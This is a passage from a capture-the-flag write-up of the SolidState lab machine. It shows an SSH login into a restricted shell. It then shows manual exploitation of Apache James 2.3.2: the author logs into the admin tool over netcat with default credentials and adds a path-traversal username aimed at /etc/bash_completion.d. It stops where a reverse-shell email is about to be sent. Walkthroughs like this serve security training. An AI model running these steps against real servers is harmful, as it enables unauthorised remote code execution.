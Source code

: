```
root@kali:~# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
```

We’re in! However, we seem to be in a restricted bash shell (rbash). A restricted shell is a shell that restricts a user by blocking/restricting some of the commands. That’s why the “whoami” command didn’t work for us.

The “ls” and “cat” commands work, so we can at least view the user.txt flag.

![](../img/Solidstate Writeup wo Metasploit/1_nLY63rKrGS5cSJYalIg0rg.png)

There are several things you can do to try and break out of a restricted shell. I tried a bunch of them, but nothing worked. I’m not even allowed to change directories!

```
mindy@solidstate:~$ cd /home
-rbash: cd: restricted
```

We seem to have reached a dead end, so let’s go back to the RCE exploit we found earlier. I’m going to exploit this manually instead of using the script on exploitdb.

Log back into the James Remote Admin server and create a user with the username “../../../../../../../../etc/bash_completion.d” and password “password”.

```
root@kali:~/Desktop/htb/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d password
User ../../../../../../../../etc/bash_completion.d added
```

Now let’s send this user an email that contains a reverse shell.
